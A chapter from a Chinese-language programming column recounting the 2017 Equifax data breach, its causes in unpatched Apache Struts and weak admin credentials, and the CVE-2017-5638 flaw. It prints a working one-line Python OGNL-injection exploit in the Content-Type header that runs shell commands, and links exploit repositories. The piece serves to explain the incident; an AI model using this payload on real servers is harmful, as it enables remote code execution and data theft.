

- 000 开篇词 洞悉技术的本质，享受科技的乐趣.md.html
- 001 程序员如何用技术变现（上）.md.html
- 002 程序员如何用技术变现（下）.md.html
- 003 Equifax信息泄露始末.md.html
- 004 从Equifax信息泄露看数据安全.md.html
- 005 何为技术领导力.md.html
- 006 如何拥有技术领导力.md.html
- 007 推荐阅读：每个程序员都该知道的事.md.html
- 008 Go语言，Docker和新技术.md.html
- 009 答疑解惑：渴望、热情和选择.md.html
- 010 如何成为一个大家愿意追随的Leader？.md.html
- 011 程序中的错误处理：错误返回码和异常捕捉.md.html
- 012 程序中的错误处理：异步编程和最佳实践.md.html
- 013 魔数 0x5f3759df.md.html
- 014 推荐阅读：机器学习101.md.html
- 015 时间管理：同扭曲时间的事儿抗争.md.html
- 016 时间管理：投资赚取时间.md.html
- 017 故障处理最佳实践：应对故障.md.html
- 018 故障处理最佳实践：故障改进.md.html
- 019 答疑解惑：我们应该能够识别的表象和本质.md.html
- 020 分布式系统架构的冰与火.md.html
- 021 从亚马逊的实践，谈分布式系统的难点.md.html
- 022 分布式系统的技术栈.md.html
- 023 分布式系统关键技术：全栈监控.md.html
- 024 分布式系统关键技术：服务调度.md.html
- 025 分布式系统关键技术：流量与数据调度.md.html
- 026 洞悉PaaS平台的本质.md.html
- 027 推荐阅读：分布式系统架构经典资料.md.html
- 028 编程范式游记（1）- 起源.md.html
- 029 编程范式游记（2）- 泛型编程.md.html
- 030 编程范式游记（3） - 类型系统和泛型的本质.md.html
- 031 Git协同工作流，你该怎样选.md.html
- 032 推荐阅读：分布式数据调度相关论文.md.html
- 033 编程范式游记（4）- 函数式编程.md.html
- 034 编程范式游记（5）- 修饰器模式.md.html
- 035 编程范式游记（6）- 面向对象编程.md.html
- 036 编程范式游记（7）- 基于原型的编程范式.md.html
- 037 编程范式游记（8）- Go 语言的委托模式.md.html
- 038 编程范式游记（9）- 编程的本质.md.html
- 039 编程范式游记（10）- 逻辑编程范式.md.html
- 040 编程范式游记（11）- 程序世界里的编程范式.md.html
- 041 弹力设计篇之“认识故障和弹力设计”.md.html
- 042 弹力设计篇之“隔离设计”.md.html
- 043 弹力设计篇之“异步通讯设计”.md.html
- 044 弹力设计篇之“幂等性设计”.md.html
- 045 弹力设计篇之“服务的状态”.md.html
- 046 弹力设计篇之“补偿事务”.md.html
- 047 弹力设计篇之“重试设计”.md.html
- 048 弹力设计篇之“熔断设计”.md.html
- 049 弹力设计篇之“限流设计”.md.html
- 050 弹力设计篇之“降级设计”.md.html
- 051 弹力设计篇之“弹力设计总结”.md.html
- 052 区块链技术 - 区块链的革命性及技术概要.md.html
- 053 区块链技术 - 区块链技术细节 - 哈希算法.md.html
- 054 区块链技术 - 区块链技术细节 - 加密和挖矿.md.html
- 055 区块链技术 - 去中心化的共识机制.md.html
- 056 区块链技术 - 智能合约.md.html
- 057 区块链技术 - 传统金融和虚拟货币.md.html
- 058 管理设计篇之分布式锁.md.html
- 059 管理设计篇之配置中心.md.html
- 060 管理设计篇之边车模式.md.html
- 061 管理设计篇之服务网格.md.html
- 062 管理设计篇之网关模式.md.html
- 063 管理设计篇之部署升级策略.md.html
- 064 性能设计篇之缓存.md.html
- 065 性能设计篇之异步处理.md.html
- 066 性能设计篇之数据库扩展.md.html
- 067 性能设计篇之秒杀.md.html
- 068 性能设计篇之边缘计算.md.html
- 069 程序员练级攻略（2018）：开篇词.md.html
- 070 程序员练级攻略（2018）：零基础启蒙.md.html
- 071 程序员练级攻略（2018）：正式入门.md.html
- 072 程序员练级攻略（2018）：程序员修养.md.html
- 073 程序员练级攻略（2018）：编程语言.md.html
- 074 程序员练级攻略：理论学科.md.html
- 075 程序员练级攻略（2018）：系统知识.md.html
- 076 程序员练级攻略（2018）：软件设计.md.html
- 077 程序员练级攻略（2018）：Linux系统、内存和网络.md.html
- 078 程序员练级攻略（2018）：异步IO模型和Lock-Free编程.md.html
- 079 程序员练级攻略（2018）：Java底层知识.md.html
- 080 程序员练级攻略（2018）：数据库.md.html
- 081 程序员练级攻略（2018）：分布式架构入门.md.html
- 082 程序员练级攻略（2018）：分布式架构经典图书和论文.md.html
- 083 程序员练级攻略（2018）：分布式架构工程设计.md.html
- 084 程序员练级攻略（2018）：微服务.md.html
- 085 程序员练级攻略（2018）：容器化和自动化运维.md.html
- 086 程序员练级攻略（2018）：机器学习和人工智能.md.html
- 087 程序员练级攻略（2018）：前端基础和底层原理.md.html
- 088 程序员练级攻略（2018）：前端性能优化和框架.md.html
- 089 程序员练级攻略（2018）：UIUX设计.md.html
- 090 程序员练级攻略（2018）：技术资源集散地.md.html
- 091 程序员面试攻略：面试前的准备.md.html
- 092 程序员面试攻略：面试中的技巧.md.html
- 093 程序员面试攻略：面试风格.md.html
- 094 程序员面试攻略：实力才是王中王.md.html
- 095 高效学习：端正学习态度.md.html
- 096 高效学习：源头、原理和知识地图.md.html
- 097 高效学习：深度，归纳和坚持实践.md.html
- 098 高效学习：如何学习和阅读代码.md.html
- 099 高效学习：面对枯燥和量大的知识.md.html
- 100 高效沟通：Talk和Code同等重要.md.html
- 101 高效沟通：沟通阻碍和应对方法.md.html
- 102 高效沟通：沟通方式及技巧.md.html
- 103 高效沟通：沟通技术.md.html
- 104 高效沟通：好老板要善于提问.md.html
- 105 高效沟通：好好说话的艺术.md.html
- 106 加餐 谈谈我的“三观”.md.html
- 107 结束语 业精于勤，行成于思.md.html
- 捐赠
003 Equifax信息泄露始末
相信你一定有所耳闻，9 月份美国知名征信公司 Equifax 出现了大规模数据泄露事件，致使 1.43 亿美国用户及大量的英国和加拿大用户受到影响。今天，我就来跟你聊聊 Equifax 信息泄露始末，并对造成本次事件的原因进行简单的分析。
Equifax 信息泄露始末
Equifax 日前确认，黑客利用了其系统中未修复的 Apache Struts 漏洞（CVE-2017-5638，2017 年 3 月 6 日曝光）来发起攻击，导致了最近这次影响恶劣的大规模数据泄露事件。
作为美国三大信用报告公司中历史最悠久的一家，Equifax 的主营业务是为客户提供美国、加拿大和其他多个国家的公民信用信息。保险公司就是其服务的主要客户之一，涉及生命、汽车、火灾、医疗保险等多个方面。
此外，Equifax 还提供入职背景调查、保险理赔调查，以及针对企业的信用调查等服务。由于 Equifax 掌握了多个国家公民的信用档案，包括公民的学前、学校经历、婚姻、工作、健康、政治参与等大量隐私信息，所以这次的信息泄露，影响面积很大，而且性质特别恶劣。
受这次信息泄露影响的美国消费者有 1.43 亿左右，另估计约有 4400 万的英国客户和大量加拿大客户受到影响。事件导致 Equifax 市值瞬间蒸发掉逾 30 亿美元。
根据《华尔街日报》（The Wall Street Journal）的观察，自 Equifax 在 9 月 8 日披露黑客进入该公司部分系统以来，全美联邦法院接到的诉讼已经超过百起。针对此次事件，Equifax 首席执行官理查德·史密斯（Richard Smith）表示，公司正在对整体安全操作进行全面彻底的审查。
事件发生之初，Equifax 在声明中指出，黑客是利用了某个“U.S. website application”中的漏洞获取文件。后经调查，黑客是利用了 Apache Struts 的 CVE-2017-5638 漏洞。
戏剧性的是，该漏洞于今年 3 月份就已被披露，其危险系数定为最高分 10 分，Apache 随后发布的 Struts 2.3.32 和 2.5.10.1 版本特针对此漏洞进行了修复。而 Equifax 在漏洞公布后的两个月内都没有升级 Struts 版本，导致 5 月份黑客利用这个漏洞进行攻击，泄露其敏感数据。
事实上，除了 Apache 的漏洞，黑客还使用了一些其他手段绕过 WAF（Web 应用程序防火墙）。有些管理面板居然位于 Shodan 搜索引擎上。更让人大跌眼镜的是，据研究人员分析，Equifax 所谓的“管理面板”都没有采取任何安保措施。安全专家布莱恩·克雷布斯（Brian Krebs）在其博客中爆料，Equifax 的一个管理面板使用的用户名和密码都是“admin”。
由于管理面板能被随意访问，获取数据库密码就轻而易举了——虽然管理面板会加密数据库密码之类的东西，但是密钥却和管理面板保存在了一起。虽然是如此重要的征信机构，但 Equifax 的安全意识之弱可见一斑。
据悉，Equifax 某阿根廷员工门户也泄露了 14000 条记录，包括员工凭证和消费者投诉。本次事件发生后，好事者列举了 Equifax 系统中的一系列漏洞，包括一年以前向公司报告的未修补的跨站脚本（XSS）漏洞，更将 Equifax 推向了风口浪尖。
Apache Struts 漏洞相关
Apache Struts 是世界上最流行的 Java Web 服务器框架之一，它最初是 Jakarta 项目中的一个子项目，并在 2004 年 3 月成为 Apache 基金会的顶级项目。
Struts 通过采用 Java Servlet/JSP 技术，实现了基于 Java EE Web 应用的 MVC 设计模式的应用框架，也是当时第一个采用 MVC 模式的 Web 项目开发框架。随着技术的发展和认知的提升，Struts 的设计者意识到 Struts 的一些缺陷，于是有了重新设计的想法。
2006 年，另外一个 MVC 框架 WebWork 的设计者与 Struts 团队一起开发了新一代的 Struts 框架，它整合了 WebWork 与 Struts 的优点，同时命名为“Struts 2”，原来的 Struts 框架改名为 Struts 1。
因为两个框架都有强大的用户基础，所以 Struts 2 一发布就迅速流行开来。在 2013 年 4 月，Apache Struts 项目团队发布正式通知，宣告 Struts 1.x 开发框架结束其使命，并表示接下来官方将不会继续提供支持。自此 Apache Struts 1 框架正式退出历史舞台。
同期，Struts 社区表示他们将专注于推动 Struts 2 框架的发展。从这几年的版本发布情况来看，Struts 2 的迭代速度确实不慢，仅仅在 2017 年就发布了 9 个版本，平均一个月一个。
但从安全角度来看，Struts 2 可谓是漏洞百出，因为框架的功能基本已经健全，所以这些年 Struts 2 的更新和迭代基本也是围绕漏洞和 Bug 进行修复。仅从官方披露的安全公告中就可以看到，这些年就有 53 个漏洞预警，包括大家熟知的远程代码执行高危漏洞。
根据网络上一份未被确认的数据显示，中国的 Struts 应用分布在全球范围内排名第一，第二是美国，然后是日本，而中国没有打补丁的 Struts 的数量几乎是其它国家的总和。特别是在浙江、北京、广东、山东、四川等地，涉及教育、金融、互联网、通信等行业。
所以在今年 7 月，国家信息安全漏洞共享平台还发布过关于做好 Apache Struts 2 高危漏洞管理和应急工作的安全公告，大致意思是希望企业能够加强学习，提高安全认识，同时完善相关流程，协同自律。
而这次 Equifax 中招的漏洞编号是 CVE-2017-5638，官方披露的信息见下图。简单来说，这是一个 RCE 的远程代码执行漏洞，最初是被安恒信息的 Nike Zheng 发现的，并于 3 月 7 日上报。

从介绍中可以看出，此次漏洞的原因是 Apache Struts 2 的 Jakarta Multipart parser 插件存在远程代码执行漏洞，攻击者可以在使用该插件上传文件时，修改 HTTP 请求头中的 Content-Type 值来触发漏洞，最后远程执行代码。
说白了，就是在 Content-Type 注入 OGNL 语言，进而执行命令。代码如下（一行 Python 命令就可以执行服务器上的 shell 命令）：
import requests
requests.get("https://target", headers={"Connection": "close", "Accept": "*/*", "User-Agent": "Mozilla/5.0", "Content-Type": "%{(#_='multipart/form-data').(#[email protected]@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"})
在 GitHub 上有相关的代码，链接为：https://github.com/mazen160/struts-pwn 或 https://github.com/xsscx/cve-2017-5638
注入点是在 JakartaMultiPartRequest.java 的 buildErrorMessage 函数中，这个函数里的 localizedTextUtil.findText 会执行 OGNL 表达式，从而导致命令执行（注：可以参看 Struts 两个版本的补丁“2.5.10.1 版补丁”“2.3.32 版补丁”），使客户受到影响。
因为默认情况下 Jakarta 是启用的，所以该漏洞的影响范围甚广。当时官方给出的解决方案是尽快升级到不受影响的版本，看来 Equifax 的同学并没有注意到，或者也没有认识到它的严重性。
另外，在 9 月 5 日和 7 日，Struts 官方又接连发布了几个严重级别的安全漏洞公告，分别是 CVE-2017-9804、CVE-2017-9805、CVE-2017-9793 和 CVE-2017-12611。
这里面最容易被利用的当属 CVE-2017-9805，它是由国外安全研究组织 lgtm.com 的安全研究人员发现的又一个远程代码执行漏洞。漏洞原因是 Struts 2 REST 插件使用带有 XStream 程序的 XStream Handler 进行未经任何代码过滤的反序列化操作，所以在反序列化 XML payloads 时就可能导致远程代码执行。

不过在 Apache 软件基金会的项目管理委员会的回应文章中，官方也对事故原因进行了分析和讨论。首先，依然不能确定泄露的源头是 Struts 的漏洞导致的。其次，如果确实是源于 Struts 的漏洞，那么原因“或是 Equifax 服务器未打补丁，使得一些更早期公布的漏洞被攻击者利用，或者是攻击者利用了一个目前尚未被发现的漏洞”。
根据推测，该声明提出黑客所使用的软件漏洞可能就是 CVE-2017-9805 漏洞，该漏洞虽然是在 9 月 4 日才由官方正式公布，但早在 7 月时就有人公布在网络上了，并且这个漏洞的存在已有 9 年。
相信通过今天的分享，你一定对 Equifax 的数据泄露始末及造成原因有了清楚的了解。欢迎您把你的收获和想法，分享给我。下篇文章中，我们将回顾一下互联网时代的! 其他大规模数据泄露事件，并结合这些事件给出应对方案和技术手段。
© 2019 - 2023 Liangliang Lee. Powered by gin and hexo-theme-book.